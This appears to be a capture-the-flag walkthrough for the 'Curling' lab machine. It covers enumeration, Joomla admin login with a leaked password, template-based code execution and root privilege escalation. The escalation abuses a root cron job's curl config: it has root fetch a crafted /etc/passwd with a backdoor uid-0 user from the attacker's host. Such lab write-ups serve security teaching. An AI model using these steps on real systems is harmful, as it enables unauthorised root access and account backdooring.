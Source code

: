 # Curling

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.248
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 12:14 EDT
Nmap scan report for 10.129.85.248
Host is up (0.0063s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Blog Enum + Joomla

The page was some type of blog.

<figure><img src="../../../.gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

In one of the posts, there's a user called `floris`.

<figure><img src="../../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>

The page source also had a hidden file:

<figure><img src="../../../.gitbook/assets/image (607).png" alt=""><figcaption></figcaption></figure>

Within it, it had a base64-encoded string. We can pipe the output and decode it:

```
$ curl http://10.129.85.248/secret.txt | base64 -d 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    17  100    17    0     0    941      0 --:--:-- --:--:-- --:--:--   944
Curling2018!
```

Can't use these for now, so let's run a `gobuster` scan as well.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.248 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.248
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 12:16:11 Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 316] [--> http://10.129.85.248/modules/]
/bin                  (Status: 301) [Size: 312] [--> http://10.129.85.248/bin/]
/plugins              (Status: 301) [Size: 316] [--> http://10.129.85.248/plugins/]
/includes             (Status: 301) [Size: 317] [--> http://10.129.85.248/includes/]
/language             (Status: 301) [Size: 317] [--> http://10.129.85.248/language/]
/components           (Status: 301) [Size: 319] [--> http://10.129.85.248/components/]
/images               (Status: 301) [Size: 315] [--> http://10.129.85.248/images/]
/cache                (Status: 301) [Size: 314] [--> http://10.129.85.248/cache/]
/libraries            (Status: 301) [Size: 318] [--> http://10.129.85.248/libraries/]
/tmp                  (Status: 301) [Size: 312] [--> http://10.129.85.248/tmp/]
/layouts              (Status: 301) [Size: 316] [--> http://10.129.85.248/layouts/]
/administrator        (Status: 301) [Size: 322] [--> http://10.129.85.248/administrator/]
/templates            (Status: 301) [Size: 318] [--> http://10.129.85.248/templates/]
/media                (Status: 301) [Size: 314] [--> http://10.129.85.248/media/]
/cli                  (Status: 301) [Size: 312] [--> http://10.129.85.248/cli/]
/server-status        (Status: 403) [Size: 278]
```

Loads of directories. The `/administrator` directory had a Joomla login:

<figure><img src="../../../.gitbook/assets/image (612).png" alt=""><figcaption></figcaption></figure>

We can login using `floris:Curling2018!`.&#x20;

<figure><img src="../../../.gitbook/assets/image (573).png" alt=""><figcaption></figcaption></figure>

We can follow the instructions from Hacktrikcs to get RCE on this website by creating new PHP Templates.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce" %}

<figure><img src="../../../.gitbook/assets/image (575).png" alt=""><figcaption></figcaption></figure>

Then we can get a reverse shell using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (576) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Backup

We can't capture the user flag yet. In `floris` home directory, there's a `password-backup` file.

```
www-data@curling:/home/floris$ ls
admin-area  password_backup  user.txt
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

It appears that the `hexdump` of the original file was taken and this is what is left. We can reverse this with `xxd -r`.&#x20;

<figure><img src="../../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

This file turns out to be loads of zip files, so we have to do `bunzip2` and `gunzip` twice and `tar` once. Eventually, we will end up with this file:

```
$ cat password.txt   
5d<wdCbdZu)|hChXll
```

We can use this to `su` to `floris`.

<figure><img src="../../../.gitbook/assets/image (564).png" alt=""><figcaption></figcaption></figure>

### To Root

I ran `pspy64` on the machine to see if there were background processes running as `root`.&#x20;

```
2023/05/06 11:41:01 CMD: UID=0    PID=3317   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input                                                                  
2023/05/06 11:41:01 CMD: UID=0    PID=3316   | /usr/sbin/CRON -f 
2023/05/06 11:41:01 CMD: UID=0    PID=3315   | /usr/sbin/CRON -f
2023/05/06 11:41:01 CMD: UID=0    PID=3320   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

There was some `curl` command being used to read something. Here are the files in question:

```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
floris@curling:~/admin-area$ head -n 10 report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

So this was reading the URL from a file and outputting it elsewhere. The command uses the `config` command, which one can read more here:

{% embed url="https://curl.se/docs/manpage.html" %}

Essentially, we can specify extra tags here, like `--output` as `output` and so on.

```
# --- Example file ---
# this is a comment
url = "example.com"
output = "curlhere.html"
user-agent = "superagent/1.0"
# and fetch another URL too
url = "example.com/docs/manpage.html"
-O
referer = "http://nowhereatall.example.com/"
# --- End of example file ---
```

This means that we can download any files as `root` since `root` is the one who is running the commands by changing the `curl` configuration file used (which we conveniently have write access over).&#x20;

This means we can overwrite files like `/etc/passwd` and add new `root` users to the machine. First, we would need to get a copy of the `/etc/passwd` of the machine onto ours, and append this line to it:

```
innocent:$1$innocent$VMCqt3i38ds/9QvgZcetR0:0:0:/root:/bin/bash
```

This would create a new user within the `/etc/passwd` file called `innocent` with a password of `password123`. Then we need to change the configuration files to this and start a HTT Pserver:

```
url = "http://10.10.14.13/passwd_original"
output = "/etc/passwd"
```

After the machine has downloaded the file, we can just `su` to our new user.

<figure><img src="../../../.gitbook/assets/image (562).png" alt=""><figcaption></figcaption></figure>

Rooted!
